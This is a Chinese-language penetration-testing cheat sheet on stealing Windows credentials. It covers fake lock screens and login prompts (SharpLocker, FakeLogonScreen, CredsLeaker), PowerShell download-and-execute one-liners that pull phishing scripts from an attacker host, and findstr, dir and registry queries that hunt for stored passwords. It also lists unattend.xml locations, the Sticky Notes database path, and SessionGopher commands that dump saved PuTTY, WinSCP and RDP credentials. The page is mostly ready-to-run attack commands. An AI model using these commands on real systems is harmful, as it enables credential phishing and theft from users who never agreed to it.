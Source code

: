  #### 伪造锁屏
	https://github.com/Pickfordmatt/SharpLocker/releases
![image](/assets/Pentest_Note/master/img/144.png)

	https://github.com/bitsadmin/fakelogonscreen/releases
![image](/assets/Pentest_Note/master/img/145.png)

	记录的密码保存在
	%LOCALAPPDATA%\Microsoft\user.db
![image](/assets/Pentest_Note/master/img/146.png)
 #### 伪造认证框
 ##### CredsLeaker
	https://github.com/Dviros/CredsLeaker
	将cl_reader.php，config.php，config.cl上传到web服务器
	修改CredsLeaker.ps1、run.bat中URL参数
![image](/assets/Pentest_Note/master/img/147.png)

	输入正确密码后会自动结束，否则除非结束powershell进程才可结束
	获取到正确密码后会在目录下生成creds.txt保存密码信息
![image](/assets/Pentest_Note/master/img/148.png)
 ##### LoginPrompt
	>powershell.exe -nop -exec bypass -c "IEX(New-Object net.webclient).DownloadString('http://192.168.0.107/ps/Invoke-LoginPrompt.ps1');invoke-LoginPrompt"
![image](/assets/Pentest_Note/master/img/149.png)

	除非结束进程，否则只能输对密码才能关闭对话框。
	收到正确密码会返回结果
![image](/assets/Pentest_Note/master/img/150.png)
 ##### Nishang-Invoke-CredentialsPhish
	>powershell.exe -nop -exec bypass -c "IEX(New-Object net.webclient).DownloadString('http://192.168.0.108/ps/nishang/Gather/Invoke-CredentialsPhish.ps1'); Invoke-CredentialsPhish"
![image](/assets/Pentest_Note/master/img/151.png)
![image](/assets/Pentest_Note/master/img/152.png)
 #### 搜索文件
  	>cd C:\ & findstr /SI /M "password" *.xml *.ini *.txt
	>findstr /si password *.xml *.ini *.txt *.config
	>findstr /spin "password" *.*
 #### 搜索具有特定文件名的文件
  	>dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
	>where /R C:\ user.txt
	>where /R C:\ *.ini
 #### 在注册表中搜索密钥和密码
	>REG QUERY HKLM /F "password" /t REG_SZ /S /K
	>REG QUERY HKCU /F "password" /t REG_SZ /S /K

	>reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" # Windows Autologin
	>reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword" 
	>reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP" # SNMP parameters
	>reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" # Putty clear text proxy credentials
	>reg query "HKCU\Software\ORL\WinVNC3\Password" # VNC credentials
	>reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password

	>reg query HKLM /f password /t REG_SZ /s
	>reg query HKCU /f password /t REG_SZ /s
 #### unattend.xml 中的密码
  	unattend.xml 文件的位置
	C:\unattend.xml
	C:\Windows\Panther\Unattend.xml
	C:\Windows\Panther\Unattend\Unattend.xml
	C:\Windows\system32\sysprep.inf
	C:\Windows\system32\sysprep\sysprep.xml
	显示内容
	>dir /s *sysprep.inf *sysprep.xml *unattended.xml *unattend.xml *unattend.txt 2>nul
	密码是base64编码的
	>echo "base64encodepassword"  | base64 -d 
	也可以使用msf模块来查找
	post/windows/gather/enum_unattend
 #### 便签密码
  	便签应用程序将其内容存储在位于的 sqlite 数据库中C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite
 #### 应用中的密码
  	使用 SessionGopher获取 PuTTY、WinSCP、FileZilla、SuperPuTTY 和 RDP 密码
	https://github.com/Arvanaghi/SessionGopher
	https://raw.githubusercontent.com/Arvanaghi/SessionGopher/master/SessionGopher.ps1
	Import-Module path\to\SessionGopher.ps1;
	Invoke-SessionGopher -AllDomain -o
	Invoke-SessionGopher -AllDomain -u domain.com\adm-arvanaghi -p s3cr3tP@ss
 #### HASH操作模块
  	其他信息详见HASH操作模块